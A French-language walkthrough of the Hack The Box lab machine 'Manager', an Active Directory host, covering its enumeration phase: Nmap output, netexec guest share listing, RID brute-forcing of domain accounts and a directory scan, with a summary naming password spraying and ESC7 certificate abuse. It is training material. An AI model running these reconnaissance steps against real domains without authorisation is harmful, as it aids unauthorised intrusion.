Manager est une machine Windows de difficulté moyenne hébergeant un environnement Active Directory avec ADCS (Active Directory Certificate Services), un serveur web et un serveur SQL. L'accès initial implique l'énumération des utilisateurs via `RID cycling` et une attaque par pulvérisation de mots de passe pour accéder au service MSSQL. La commande `xp_dirtree` est utilisée pour explorer le système de fichiers, révélant une sauvegarde du site web. L'extraction de cette sauvegarde dévoile des identifiants réutilisés pour se connecter via `WinRM` au serveur. Enfin, l'escalade de privilèges s'effectue via ADCS en exploitant la vulnérabilité `ESC7`.

## Énumération
### Nmap

Le scan Nmap révèle plusieurs ports ouverts : `DNS`, `HTTP`, `Kerberos`, `LDAP`, `RPC`, `SMB`, `LDAPS`, `MSSQL`, `WinRM` ainsi que d'autres ports Windows.
```shell
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-08-08 03:14:16Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56af225a3ddb67c9bba439423214d1
| SHA-1: 2b6d98b3d379df6459f6c665d4b753b0faf6e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-08-08T03:15:37+00:00; +7h00m00s from scanner time.
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-08T03:15:37+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56af225a3ddb67c9bba439423214d1
| SHA-1: 2b6d98b3d379df6459f6c665d4b753b0faf6e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-08-08T03:08:48
| Not valid after:  2055-08-08T03:08:48
| MD5:   b2995173b2f797663fb9894fe494a1e0
| SHA-1: e04836bc14f735a3a186fad148dfef2537d48991
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQH+vGosqQGrxIDh+eqlEDNjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUwODA4MDMwODQ4WhgPMjA1NTA4MDgwMzA4NDhaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANL+MgLc
| f46RPb9czZPbUja+Bcy5h1juZvDgRWxA5LzEbGtKHkMVAPXxqHiJLhSBXcRa7ngM
| ltt60xNda2X7UGsnKKfePIFlc0iFlZqkF8E7bFFc7pk/tBjwFrDhtKzoJZ95bCk3
| jEjlFERUJgut11gUu3MFbQKi3YP3kqje7rydEqkcI4uKklbKwiT27HzFxblXQyW7
| +4Dymvj51x/XWpESvK8VaaoNfe6MPfSu7Wo+Dma/dbUEDE11zBSdKAkS9UpXnwtU
| k05V59d+7I8iZYT/6peu/mBMa4KC6EEYUdGJl+EfIKnUF/W/RvHkCKPQW0WOwVsy
| l3nnnPRxUHfU5IUCAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAt10O0xNiWGU+ERXD
| svbTYlWjc05i+5AblZaVWzLryr8GaT4s11B6PqConx4c4sXbJc4DJMULd8iePqWK
| ZShs9z7m7FIfyE2f0tV6HEXnCxIvU9HH1KPADIJ1uc0PKc/AT3Xb+CU3ZIAXZ+QQ
| aB6zKZdLsixIKCfa82iEUzWzcOcjk4sGxExKYRCMjdW7osawRv+BCEVhfNt2C06k
| dyasEgKiqMPRhfZM/5R3x1UFUGvGRUzjIkpif9YHy4CrEKjEwK9wUPoOzocvjSJc
| a/KsUa764GDA63BRF6RLn7zaBPTJHh0vnOuPb7qq6gFwKJwj1MccPFMdmZN71e/G
| mdr1Tw==
|_-----END CERTIFICATE-----
|_ssl-date: 2025-08-08T03:15:37+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56af225a3ddb67c9bba439423214d1
| SHA-1: 2b6d98b3d379df6459f6c665d4b753b0faf6e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-08-08T03:15:37+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-30T17:08:51
| Not valid after:  2122-07-27T10:31:04
| MD5:   bc56af225a3ddb67c9bba439423214d1
| SHA-1: 2b6d98b3d379df6459f6c665d4b753b0faf6e07a
| -----BEGIN CERTIFICATE-----
| MIIFyDCCBLCgAwIBAgITXwAAABHDlIAulPWHxgAAAAAAETANBgkqhkiG9w0BAQsF
| ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHbWFuYWdl
| cjEYMBYGA1UEAxMPbWFuYWdlci1EQzAxLUNBMCAXDTI0MDgzMDE3MDg1MVoYDzIx
| MjIwNzI3MTAzMTA0WjAAMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA
| 7Pt5jAgDiLnlXbCaEu5YkYU9UB5O36TnSqkMDx5/iXnxVmyynxCezA20S5wkZ+1R
| Zq4GN/KQ8IOZObRZ6uFc34KhOajObR12O4m7dxZLKLQwyv4ET21zlbHuwzcseMeP
| t8vm0eabezOlR0GW3yMSEElmg3Rtivd5a+k6yIfA1z0/9xIaQl61yYexwAS53+Iz
| 8IaPXPWkHr9ELxAdSMYJELiV8eG43KOQ28rqBNecz5eHYnvy0AKS1Kt7IODOHKwH
| FYfIrKcl3YIDE+IqSCv+gdKprfvfgspFrJgbDYEhDP93kHF06bbnttBKvCpu+FAC
| rg2AIyymVheJx8lJzgMeeQIDAQABo4IC7zCCAuswNQYJKwYBBAGCNxUHBCgwJgYe
| KwYBBAGCNxUIhunUf4LfwleDsYkm1dV5+6weIwEcAgFuAgECMCkGA1UdJQQiMCAG
| CCsGAQUFBwMCBggrBgEFBQcDAQYKKwYBBAGCNxQCAjAOBgNVHQ8BAf8EBAMCBaAw
| NQYJKwYBBAGCNxUKBCgwJjAKBggrBgEFBQcDAjAKBggrBgEFBQcDATAMBgorBgEE
| AYI3FAICMB0GA1UdDgQWBBTwZlQbixROyHC6vosxL0ZqZFx0EzAfBgNVHSMEGDAW
| gBQ6y/QuzYnIJDZmjzlYBg4ivzAOTDCBygYDVR0fBIHCMIG/MIG8oIG5oIG2hoGz
| bGRhcDovLy9DTj1tYW5hZ2VyLURDMDEtQ0EsQ049ZGMwMSxDTj1DRFAsQ049UHVi
| bGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlv
| bixEQz1tYW5hZ2VyLERDPWh0Yj9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jh
| c2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0aW9uUG9pbnQwgcEGCCsGAQUFBwEB
| BIG0MIGxMIGuBggrBgEFBQcwAoaBoWxkYXA6Ly8vQ049bWFuYWdlci1EQzAxLUNB
| LENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPW1hbmFnZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/
| YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MB4GA1UdEQEB
| /wQUMBKCEGRjMDEubWFuYWdlci5odGIwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEE
| AYI3GQIBoDAELlMtMS01LTIxLTQwNzgzODIyMzctMTQ5MjE4MjgxNy0yNTY4MTI3
| MjA5LTEwMDAwDQYJKoZIhvcNAQELBQADggEBABAdOIMcqsDOfZ/0R2p50BzXyavO
| MsA1XBGc31NOKaIg96/JxW/YQWyUSvqAcLWSegqXszFyngao6pqH5Biql9jZhD2X
| 8aaJzmiVZO2TtST49augfum5hQYiCIo/jAhKC6vnNl+pAjRZYEfv+PZqjsfDVBwC
| XRQJEpiIAmd05b/zrhz7VSceGWGAWvJievynjx0JCpe+61/s8w2hALvcdPcTRtCU
| oVfFTxa3zxBRmnqt2l/qAdUP0QlNJ12A0extUg1L7FIpH0uBdqhXGjqzPD5jLCG4
| CIuC4DNai+8mVyQYa6KHjod9QOGOUSeDVdeshf5le28sddSPiZhmvNRZF1E=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-08-08T03:15:37+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 59624/tcp): CLEAN (Timeout)
|   Check 2 (port 43344/tcp): CLEAN (Timeout)
|   Check 3 (port 42859/udp): CLEAN (Timeout)
|   Check 4 (port 64849/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-08-08T03:15:01
|_  start_date: N/A

```


j'ajoute le nom de domaine ainsi que le FQDN dans le fichier `/etc/hosts`.
```shell
╭─root@exegol-hackthebox /workspace/Manager
╰─➤  nxc smb 10.129.4.152 --generate-hosts-file /etc/hosts
SMB         10.129.4.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)

╭─root@exegol-hackthebox /workspace/Manager
╰─➤  cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      exegol-hackthebox
10.129.4.152     DC01.manager.htb manager.htb DC01
```


### SMB - TCP 445

Je peux énumérer les partages en tant que `Guest`, mais je ne trouve aucun partage intéressant.
```shell
╭─root@exegol-hackthebox /workspace/Manager
╰─➤  nxc smb 10.129.4.152 -u '' -p '' --shares
SMB         10.129.4.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.4.152    445    DC01             [+] manager.htb\:
SMB         10.129.4.152    445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED

╭─root@exegol-hackthebox /workspace/Manager
╰─➤  nxc smb 10.129.4.152 -u 'a' -p '' --shares
SMB         10.129.4.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.4.152    445    DC01             [+] manager.htb\a: (Guest)
SMB         10.129.4.152    445    DC01             [*] Enumerated shares
SMB         10.129.4.152    445    DC01             Share           Permissions     Remark
SMB         10.129.4.152    445    DC01             -----           -----------     ------
SMB         10.129.4.152    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.4.152    445    DC01             C$                              Default share
SMB         10.129.4.152    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.4.152    445    DC01             NETLOGON                        Logon server share
SMB         10.129.4.152    445    DC01             SYSVOL                          Logon server share

```


J'énumérer les groupes et utilisateurs avec l'option `--rid-brute` pour tenter d'énumérer tous les comptes utilisateurs et groupes du domaine en testant séquentiellement les RID (identifiants relatifs).
```shell
╭─root@exegol-hackthebox /workspace/Manager
╰─➤  nxc smb 10.129.4.152 -u 'a' -p '' --rid-brute
SMB         10.129.4.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.129.4.152    445    DC01             [+] manager.htb\a: (Guest)
SMB         10.129.4.152    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.4.152    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.129.4.152    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.129.4.152    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.129.4.152    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.129.4.152    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.129.4.152    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.129.4.152    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.129.4.152    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.129.4.152    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.129.4.152    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.129.4.152    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.129.4.152    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.4.152    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.4.152    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.4.152    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.129.4.152    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.129.4.152    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.4.152    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.4.152    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.4.152    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.4.152    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.129.4.152    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.129.4.152    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.4.152    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.129.4.152    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.129.4.152    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.129.4.152    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.129.4.152    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.129.4.152    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.129.4.152    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.129.4.152    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```


Je mets les utilisateurs dans un fichier.
```shell
cat tmp | grep '(SidTypeUser)' | awk '{print($6)}' | cut -d '\' -f2 > users.lst
```

```
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```


### HTTP - TCP 80
#### Fonctionnalités du site

J'arrive sur un site statique. Il n'y a aucune fonctionnalité d'intéressante.


#### Énumération des répertoires

J'énumère alors les fichiers et répertoires mais je ne trouve rien d'intéressant.
```shell
╭─root@exegol-hackthebox /workspace/Manager
╰─➤  dirsearch -u http://manager.htb/ -x 404,500 -t 100

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 100 | Wordlist size: 12289

Target: http://manager.htb/

[05:25:04] Scanning:
[05:25:15] 403 -   312B - /\..\..\..\..\..\..\..\..\..\etc\passwd
[05:25:15] 200 -    5KB - /about.html
